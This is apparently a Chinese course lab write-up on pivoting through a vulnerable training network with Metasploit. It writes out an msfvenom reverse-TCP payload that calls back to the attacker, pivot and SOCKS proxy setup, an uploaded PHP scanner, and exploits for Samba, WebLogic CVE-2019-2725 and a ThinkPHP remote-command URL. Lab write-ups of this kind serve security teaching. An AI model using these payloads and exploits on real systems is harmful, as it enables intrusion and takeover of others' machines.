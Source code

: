 # 网安实践：内网渗透和攻击

## 实验环境

* kali

* metasploit

* docker

* vulficus

## 实验步骤

### 步骤一 攻击入口靶标并getflag

### 步骤二 设立立足点并发现靶标2-3

1. 在攻击者主机上生成meterpreter.elf文件
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<攻击者主机IP> LPORT=<端口> -f elf > meterpreter.elf`
<br>![](./pics/手动生成meterpretershell.png)<br>
2. 上传文件（要求完成入口靶标的提权行为）
![](./pics/上传成功.png)<br>

3. 在metasploit里设置如下并`run -j`等待

```bash
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <攻击者主机IP>
set lport <端口>
run -j
```

注意，这里的IP和端口要和生成.elf文件时设置的一样

5. 在靶机上进入入口靶标的容器，在靶机里运行meterpreter.elf
![](./pics/进入容器下载文件并运行.png)<br>

6. 返回到攻击者主机，可以看到连接成功
![](./pics/拿到meterpretershell.png)<br>

7. 升级shell
`sessions -u <会话编号>`
![](./pics/升级会话窗口.png)<br>

8. 进入新开启的会话，查看route，arp， ipconfig
`sessions -i <会话编号>`
![](./pics/查看arp.png)<br>
![](./pics/查看route.png)<br>
![](./pics/ipconfig.png)<br>

9. 设置pivot路由
![](./pics/添加pivot路由3.png)<br>

10. 扫描
```bash
search portscan
use 0
set rhosts <ip>
set ports <ports>
set threads 10
run
```
![](./pics/扫描结果1.png)<br>
扫描100%后查看存活的主机和服务，使用`hosts`和`services`
![](./pics/开放的主机和服务.png)<br>

11. 设置代理
参照[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)和视频
![](./pics/socks代理.png)<br>
![](./pics/查看1080端口服务开放情况.png)<br>
`cat /etc/proxychains4.conf` 
确认有以下配置<br>
![](./pics/修改proxychains配置.png)<br>
并且配置浏览器代理,方便直接从浏览器访问网页
![](./pics/代理3.png)<br>

**完成入口靶标的提权行为后，可以继续尝试上传一些不同的木马文件，例如：**
**扫描下层ip和端口开放情况**

```sh
<?php
// 定义目标主机列表
$hosts = ['192.170.84.2', '192.170.84.3', '192.170.84.4'];

// 定义需要扫描的端口范围
$ports = range(79, 81);

// 超时时间（秒）
$timeout = 1;

echo "<table border='1'>";
echo "<tr><th>主机</th><th>端口</th><th>状态</th></tr>";

foreach ($hosts as $host) {
    foreach ($ports as $port) {
        $fp = @fsockopen($host, $port, $errno, $errstr, $timeout);
        if ($fp) {
            // 端口开放
            $status = "开放";
            fclose($fp);
        } else {
            // 端口关闭或超时
            $status = "关闭";
        }
        echo "<tr><td>{$host}</td><td>{$port}</td><td>{$status}</td></tr>";
    }
}

echo "</table>";
?>
```

可以在网页上看到上传成功，点击以后打印扫描结果
![](./pics/木马扫描.png)

### 步骤三 攻击新发现的靶机

#### nginx

nginx
1. 设置代理curl扫描到的IP
`proxychains curl http://192.170.84.2`
![](./pics/访问第二台主机.png)<br>

2. 根据提示执行以下命令，即可getflag
`proxychains curl http://<目标IP>/index.php?cmd=ls%20/tmp`
![](./pics/第二个flag.png)<br>

#### samba

1. 搜索可用攻击模块并选择合适的模块，设置合适的options，进行攻击
```bash
search semba type:exploit
use exploit/linux/samba/is_know_pipname
# 设置options，可以使用show options查看需要设置的内容
# 执行攻击
run
```

2. get flag
![](./pics/getflag3.png)<br>

### 步骤四 设立pivot路由并发现靶标4-5

1. 查看第一层两台主机的ip

![](./pics/双网卡1.png)<br>
可以看到192.170.84.4这一台机器有双网卡

2. 升级对应的shell
![](./pics/升级shell1.png)<br>

3. 设置pivot路由
![](./pics/添加pivot路由3.png)<br>

### 步骤五 攻击靶标4-5

#### weblogic

```bash
search cve-2019-2725
use 0
set Proxies socks5:127.0.0.1:1080
# 设置靶机IP等
# 例：
# set rhosts 192.169.85.3
# 设置完成以后再进行攻击
run
```
会话窗口开启以后，进入shell，输入ls /tmp，getflag
![](./pics/拿到flag3.png)

#### apache

### 步骤六 发现终点靶标

同样，ip a查看第二层靶机的网卡，发现双网卡
![](./pics/发现双网卡.png)
升级shell
`sessions -u <>`
进入新启动的shell
`sessions -i <>`
设置pivot路由
`run autoroute -s 10,10,10,0/24`
![](./pics/设置pivot路由.png)<br>
![](./pics/设置pivot路由成功.png)<br>
扫描发现终点靶标
![](./pics/发现终点靶标.png)<br>

### 步骤七 攻击终点靶标

#### thinkphp

cve_2018_1002015
1. 浏览器访问以下网页
![](./pics/访问thinkphp.png)

2. 浏览器访问以下网页，执行phpinfo()
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1`
![](./pics/phpinfo.png)<br>
3. 执行系统命令`ls /tmp`，getflag

`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ls%20/tmp`
![](./pics/第三个flag.png)<br>

## 参考资料

[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)
[教学视频【网络安全(2023) 综合实验】](https://www.bilibili.com/video/BV1p3411x7da?vd_source=e1f7434c660a15bfac556224e06c742a)
[教学视频【第六章 网络与系统渗透】](https://www.bilibili.com/video/BV1qV41127Xv?p=10&vd_source=e1f7434c660a15bfac556224e06c742a)
